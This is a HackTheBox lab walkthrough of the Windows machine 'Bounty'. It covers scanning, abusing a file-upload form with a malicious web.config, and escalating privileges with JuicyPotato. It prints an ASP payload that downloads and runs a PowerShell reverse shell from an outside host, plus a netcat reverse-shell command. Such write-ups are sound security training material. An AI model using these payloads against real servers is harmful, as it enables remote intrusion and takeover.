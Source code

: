 ```yaml
---
title: Bounty - HackTheBox Walkthrough
author: Degr4ne
date: 2021-11-09 12:00:00 
categories: [HackTheBox,Windows]
tags: [juicy potato]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Bounty/00-banner.png
  width: 595
  height: 378
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Bounty` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Tue Nov  2 14:00:56 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.248.27
Nmap scan report for 10.129.248.27
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  2 14:01:16 2021 -- 1 IP address (1 host up) scanned in 20.04 seconds
```

## HTTP Enumeration
The site displays a image of a wizard.

![01-web](/assets/img/HTB/Bounty/01-web.png)

Using `gobuster` we found `transfer.aspx` and `/UploadedFiles`

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.248.27/ -t 100 -x aspx
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.248.27/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              aspx
[+] Timeout:                 10s
===============================================================
2021/11/02 14:03:41 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 158] [--> http://10.129.248.27/UploadedFiles/]

===============================================================
2021/11/02 14:05:25 Finished
===============================================================
```

`transfer.aspx` allow us to upload a image.

![02-web](/assets/img/HTB/Bounty/02-web.png)

After submit a png file we can display it going to: `http://10.129.248.27/UploadedFiles/[file-name].png`

![03-web](/assets/img/HTB/Bounty/03-web.png)
# Initial Foothold
Testing some [iis file extensions](https://hahndorf.eu/blog/iisfileextensions.html) to see what kind of file we can upload, we discover that the site allows `.config` if we use this extension we'll be able to [execute commands](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/).

First I tried a basic arithmetic operation `1+2`:

![04-web](/assets/img/HTB/Bounty/04-web.png)

It works, so let's execute a [ASP reverse shell](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html), create `web.config` file and insert into it the next code.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
    Call oS.Run("powershell.exe /c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.89/rev.ps1')",0,True)
%>
-->
```
Copy [Nishang’s Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), uncomment the second line, change the ip and the listener port.

![05-nishang](/assets/img/HTB/Bounty/05-nishang.png)

Upload the web.config using the web form, create a python HTTP Server and visit `http://10.129.248.27/UploadedFiles/web.config`,

![06-shell](/assets/img/HTB/Bounty/06-shell.png)
# Privilage Escalation
`SeImpersonatePrivilege` is enable which means it might be vulnerable to [Juicy Potato](https://github.com/ohpe/juicy-potato/releases)

![07-juicy](/assets/img/HTB/Bounty/07-juicy.png)

Let's upload `nc.exe` and `JuicyPotato.exe` to the victime machine, then execute the next:
```plaintext
.\JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.89 443" -t *
```
We recived a reverse shell and we can read root.txt

![08-root](/assets/img/HTB/Bounty/08-root.png)

That’s it for now guys. Until next time.
